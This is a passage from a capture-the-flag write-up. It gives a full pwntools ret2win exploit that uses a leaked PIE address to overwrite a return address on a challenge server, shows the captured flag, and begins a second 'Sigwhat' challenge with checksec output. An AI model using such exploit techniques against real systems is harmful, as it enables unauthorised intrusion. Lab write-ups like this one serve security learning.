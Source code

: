 We get the following solve script performing our `ret2win`
```python
from pwn import *

exe = context.binary = ELF('./leak', checksec=False)
io = remote("20.100.164.71", 1024)

io.recvuntil(b"number")
io.sendline(b"1")
io.recvuntil(b"5: ")

leak = int(io.recvline()[:-1], 16) # Get binary address leak from option 5
piebase = leak - 0x3d78
exe.address = piebase
log.success(f"Leak: {hex(leak)}")
log.success(f"Piebase: {hex(piebase)}")

io.recvuntil(b"1-5)")

# Ret2win payload
payload = b"A"*26
payload += pack(exe.sym.dont_look) # Overwrite the return address with the function printing us the flag

io.sendline(payload)
io.interactive()
```
{: file="exploit.py" }

```console
loevland@hp-envy:~/ctf/wackattack/pwn/leak$ python3 exploit.py
[+] Opening connection to 20.100.164.71 on port 1024: Done
[+] Leak: 0x558eef534d78
[+] Piebase: 0x558eef531000
[*] Switching to interactive mode

What? You really should remember your FAVORITE number!!
nothing to see here...
wack{w0w_y0u_l3aked_m3}
```


## Sigwhat
![Challenge](sigwhat_chall.png)

```console
loevland@hp-envy:~/ctf/wackattack/pwn/sigwhat$ ./sigwhat
n00b, you can't even run /bin/sh
```

We are asked for some input after the printed message.

The protections on the binary are
```console
loevland@hp-envy:~/ctf/wackattack/pwn/sigwhat$ pwn checksec sigwhat
[*] '/home/loevland/ctf/wackattack/pwn/sigwhat/sigwhat'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
